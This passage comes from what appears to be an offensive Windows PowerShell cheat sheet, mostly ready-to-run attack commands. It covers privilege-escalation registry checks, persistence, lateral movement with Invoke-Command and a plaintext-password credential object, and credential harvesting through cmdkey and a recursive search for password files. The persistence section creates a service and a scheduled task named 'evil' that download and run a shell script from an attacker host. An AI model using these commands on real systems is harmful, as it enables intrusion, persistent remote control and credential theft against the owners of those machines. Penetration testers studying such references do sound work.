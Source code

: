 **AlwaysInstallElevated check:**
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**AutoRuns:**
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

## Persistence

**Create service:**
```powershell
sc create evil binpath= "cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
sc start evil
```

**Scheduled task:**
```powershell
schtasks /create /tn "evil" /tr "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')" /sc minute /mo 5
```

## Lateral Movement

**Execute commands on remote systems:**
```powershell
Invoke-Command -ComputerName TARGET -Credential $cred -ScriptBlock {whoami}
```

**Execute scripts remotely:**
```powershell
Invoke-Command -ComputerName TARGET -Credential $cred -FilePath C:\temp\script.ps1
```

**Create PSCredential object:**
```powershell
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('username', $pass)
```

## Credential Harvesting

**Check for stored credentials:**
```powershell
cmdkey /list
```

**Search for credentials in files:**
```powershell
Get-ChildItem -Path C:\ -Include *password*,*cred* -Recurse -Force -ErrorAction SilentlyContinue
```
